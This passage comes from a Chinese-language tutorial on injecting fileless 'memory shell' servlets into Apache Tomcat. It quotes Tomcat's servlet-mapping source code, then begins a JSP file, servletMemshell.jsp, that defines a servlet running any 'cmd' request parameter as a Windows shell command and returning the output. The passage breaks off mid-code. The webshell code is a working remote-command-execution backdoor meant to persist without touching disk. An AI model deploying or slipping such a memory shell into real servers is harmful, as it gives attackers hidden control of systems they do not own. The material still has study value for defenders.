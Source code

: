 这个方法调用了StandardContext的addServletMappingDecoded方法，添加URL路径与Wrapper对象的映射

```plain
@Override
public void addServletMappingDecoded(String pattern, String name, boolean jspWildCard) {
    // Validate the proposed mapping
    if (findChild(name) == null) {
        throw new IllegalArgumentException(sm.getString("standardContext.servletMap.name", name));
    }
    String adjustedPattern = adjustURLPattern(pattern);
    if (!validateURLPattern(adjustedPattern)) {
        throw new IllegalArgumentException(sm.getString("standardContext.servletMap.pattern", adjustedPattern));
    }

    // Add this mapping to our registered set
    synchronized (servletMappingsLock) {
        String name2 = servletMappings.get(adjustedPattern);
        if (name2 != null) {
            // Don't allow more than one servlet on the same pattern
            Wrapper wrapper = (Wrapper) findChild(name2);
            wrapper.removeMapping(adjustedPattern);
        }
        // 这里
        servletMappings.put(adjustedPattern, name);
    }
    Wrapper wrapper = (Wrapper) findChild(name);
    wrapper.addMapping(adjustedPattern);

    fireContainerEvent("addServletMapping", adjustedPattern);
}
```

通过这个方法在servletMappings中添加URL路径与name的映射

### 6.3 Servlet内存马

servletMemshell.jsp:

```plain
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/19
  Time: 18:43
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<% class MyServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        if(req.getParameter("cmd") != null) {
            InputStream in = null;
            try {
                in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", req.getParameter("cmd")}).getInputStream();
                Scanner scanner = new Scanner(in).useDelimiter("\\A");
                String out = scanner.hasNext()?scanner.next():"";
```